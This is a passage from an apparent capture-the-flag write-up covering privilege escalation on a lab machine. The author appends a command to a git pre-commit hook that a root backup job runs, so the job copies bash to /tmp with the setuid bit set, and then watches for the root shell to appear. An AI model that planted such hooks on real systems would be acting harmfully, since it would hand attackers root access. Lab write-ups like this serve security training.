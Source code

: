it seems with the root uid , it creates backup for the home of user dev01 , we can visit the path

![error](/assets/images/open-source/20220522231056.png)

searching on how can we execute script with this information will find [this](https://support.gitkraken.com/working-with-repositories/githooksexample/#:~:text=Open%20a%20terminal%20window%20by,the%20pre%2Dcommit%20file%20executable.) talks about hooks.

```bash
dev01@opensource:~/.git/hooks$ echo "cp /bin/bash /tmp/bash ; chmod +s /tmp/bash" >> pre-commit.sample
dev01@opensource:~/.git/hooks$ mv pre-commit.sample pre-commit
```

now wait until the bash is here

```bash
cd /tmp ; watch ls
```

![error](/assets/images/open-source/20220522231511.png)

![error](/assets/images/open-source/20220522231541.png)
